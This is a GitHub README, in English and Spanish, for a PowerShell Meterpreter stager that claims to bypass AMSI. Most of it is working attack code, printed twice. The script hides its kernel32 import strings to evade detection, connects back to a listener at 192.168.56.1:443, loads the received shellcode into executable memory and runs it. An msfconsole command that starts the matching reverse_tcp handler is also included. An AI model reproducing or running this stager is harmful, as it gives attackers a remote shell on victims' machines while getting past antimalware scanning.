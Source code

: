 # Meterpreter-Powershell

This repo contains a simple meterpreter session in powershell bypassing amsi

1. [English]
2. [Code Meterpreter]
3. [Use]
4. [Spanish]
5. [Codigo Meterpreter]
6. [Uso]
7. [Video Poc (Uso/Use]

# English #
# Code Meterpreter #

[!] This code meterpreter only work with Powershell 32 bits
Path Powershell 32 bits = %WinDir%\syswow64\windowspowershell\v1.0\powershell.exe

```
$ip = "192.168.56.1"; $port = 443; $c = @"
[D#ll#Imp#ort("ker#ne#l32.#dll")] publi#c static e#xtern In#tPtr Virt#ualAl#loc(Int#Ptr w, ui#nt x, ui#nt y, ui#nt z);
[Dl#lI##mpor#t("kern#el32.d#ll")] pub#lic st#atic ex#tern Int#Ptr Cr#eate#Thr#ead(Int#Ptr u, u#int v, IntP#tr w, Int#Ptr x, ui#nt y, IntPtr z);
"@.replace("#", "")
try{$s = New-Object System.Net.Sockets.Socket ([System.Net.Sockets.AddressFamily]::InterNetwork, [System.Net.Sockets.SocketType]::Stream, [System.Net.Sockets.ProtocolType]::Tcp)
$s.Connect($ip, $port) | out-null; $p = [Array]::CreateInstance("byte", 4); $x = $s.Receive($p) | out-null; $z = 0
$y = [Array]::CreateInstance("byte", [BitConverter]::ToInt32($p,0)+5); $y[0] = 0xBF
while ($z -lt [BitConverter]::ToInt32($p,0)) { $z += $s.Receive($y,$z+5,1,[System.Net.Sockets.SocketFlags]::None) }
for ($i=1; $i -le 4; $i++) {$y[$i] = [System.BitConverter]::GetBytes([int]$s.Handle)[$i-1]}
$t = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru; $x=$t::VirtualAlloc(0,$y.Length,0x3000,0x40)
[System.Runtime.InteropServices.Marshal]::Copy($y, 0, [IntPtr]($x.ToInt32()), $y.Length)
$t::CreateThread(0,0,$x,0,0,0) | out-null; Start-Sleep -Second 86400;  Start-Sleep -Second 86400; Start-Sleep -Second 86400; Start-Sleep -Second 86400}catch{}
```

# Use #
Start msfconsole with next command, replace "YourIp" and "YourPort" for your data
```
msfconsole -x "set lhost YourIp; set lport YourPort; set payload windows/meterpreter/reverse_tcp; set EnableStageEncoding true; set StageEncoder x86/xor_dynamic; run"
```

# Spanish #
# Codigo Meterpreter #

[!] Este codigo de Meterpreter solo funciona en la PowerShell de 32 Bits 
Ruta Powershell de 32 bits = %WinDir%\syswow64\windowspowershell\v1.0\powershell.exe

```
$ip = "192.168.56.1"; $port = 443; $c = @"
[D#ll#Imp#ort("ker#ne#l32.#dll")] publi#c static e#xtern In#tPtr Virt#ualAl#loc(Int#Ptr w, ui#nt x, ui#nt y, ui#nt z);
[Dl#lI##mpor#t("kern#el32.d#ll")] pub#lic st#atic ex#tern Int#Ptr Cr#eate#Thr#ead(Int#Ptr u, u#int v, IntP#tr w, Int#Ptr x, ui#nt y, IntPtr z);
"@.replace("#", "")
try{$s = New-Object System.Net.Sockets.Socket ([System.Net.Sockets.AddressFamily]::InterNetwork, [System.Net.Sockets.SocketType]::Stream, [System.Net.Sockets.ProtocolType]::Tcp)
$s.Connect($ip, $port) | out-null; $p = [Array]::CreateInstance("byte", 4); $x = $s.Receive($p) | out-null; $z = 0
$y = [Array]::CreateInstance("byte", [BitConverter]::ToInt32($p,0)+5); $y[0] = 0xBF
while ($z -lt [BitConverter]::ToInt32($p,0)) { $z += $s.Receive($y,$z+5,1,[System.Net.Sockets.SocketFlags]::None) }
for ($i=1; $i -le 4; $i++) {$y[$i] = [System.BitConverter]::GetBytes([int]$s.Handle)[$i-1]}
$t = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru; $x=$t::VirtualAlloc(0,$y.Length,0x3000,0x40)
[System.Runtime.InteropServices.Marshal]::Copy($y, 0, [IntPtr]($x.ToInt32()), $y.Length)
$t::CreateThread(0,0,$x,0,0,0) | out-null; Start-Sleep -Second 86400;  Start-Sleep -Second 86400; Start-Sleep -Second 86400; Start-Sleep -Second 86400}catch{}
```

# Uso #
Inicia msfconsole con el siguiente comando, reemplaza "TuIp" y "TuPuerto" por tus datos respectivos
```
msfconsole -x "set lhost TuIp; set lport TuPuerto; set payload windows/meterpreter/reverse_tcp; set EnableStageEncoding true; set StageEncoder x86/xor_dynamic; run"
```

# Video Poc (Uso/Use) #



